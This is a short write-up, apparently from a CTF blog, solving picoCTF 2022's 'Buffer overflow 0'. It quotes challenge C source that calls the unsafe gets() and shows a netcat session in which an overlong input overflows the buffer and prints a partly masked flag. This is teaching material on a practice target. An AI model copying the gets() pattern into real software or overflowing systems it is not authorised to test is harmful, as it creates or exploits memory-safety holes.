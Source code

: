 ```yaml
---
title: "pico22/pwn: Buffer overflow 0"
date: 2022-04-05 12:16:08
tags:
- ctf
- pico22
- pwn
description: "Writeup for the picoCTF 2022 pwn challenge [Buffer overflow 0]."
permalink: ctfs/pico22/pwn/buffer-overflow-0/
thumbnail: https://enscribe.dev/image/banner-ctfs.png
---
```

## 📜 Description

Smash the stack \
Let's start off simple, can you overflow the correct buffer? The program is available  [here](https://artifacts.picoctf.net/c/523/vuln). You can view source  [here](https://artifacts.picoctf.net/c/523/vuln.c). And connect with it using:`nc saturn.picoctf.net 64712`

---

## 🔍 Detailed Solution

Let's analyze this `.c` file we have as reference.

```c
printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1);
vuln(buf1);
printf("The program will exit now\n");
return 0;
```

We see that the `gets()` function is called. This function is really, really bad (in addition to being deprecated) as it will write the user's input to the stack without regard to its length, meaning a user's input can exceed its allocated space. We should be able to trigger the flag print by simply inputting a string that is longer than the specified length of 16 in the `vuln` function:

```text
# nc saturn.picoctf.net 64712
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_********}
```
